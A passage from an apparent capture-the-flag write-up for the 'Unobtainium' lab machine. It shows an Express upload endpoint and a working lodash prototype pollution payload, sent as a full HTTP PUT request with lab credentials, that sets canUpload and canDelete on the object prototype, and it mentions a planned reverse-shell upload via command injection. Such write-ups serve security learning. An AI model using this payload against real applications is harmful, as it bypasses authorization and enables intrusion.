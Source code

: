 ```jsx
app.post("/upload", (req, res) => {
  const user = findUser(req.body.auth || {})
  if (!user || !user.canUpload) {
    res.status(403).send({ ok: false, error: "Access denied" })
    return
  }

  filename = req.body.filename
  root.upload("./", filename, true)
  res.send({ ok: true, Uploaded_File: filename })
})
```

Grabbing the `index.js` gives us something to work with. We can see there is an `/upload` endpoint and also a `PUT` request that uses lodash's `merge()`. Looks like there's a CVE for that: [https://snyk.io/vuln/SNYK-JS-LODASH-73638](https://snyk.io/vuln/SNYK-JS-LODASH-73638)

Together we have a prototype pollution and a command injection vulnerability. We could try using the lodash vuln to enable uploads and then the google-cloudstorage-commands vuln to upload a reverse shell? Let's give it a try,

[https://github.com/Kirill89/prototype-pollution-explained](https://github.com/Kirill89/prototype-pollution-explained)

Kirill89 demonstrates a PoC for this exact lodash vulnerability - we just modify the payload to:

```json
"__proto__":{
	"canUpload":true,
	"canDelete":true,
}
```

```bash
PUT / HTTP/1.1
Host: unobtainium.htb:31337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Accept: */*
Content-Type: application/json
Content-Length: 157
Connection: close

{
	"auth":{
		"name":"felamos",
		"password":"Winter2021"
	},
"message":{
	"text": "boop",
		"__proto__":{
			"canUpload":true,
			"canDelete":true
		}
	}
}
```
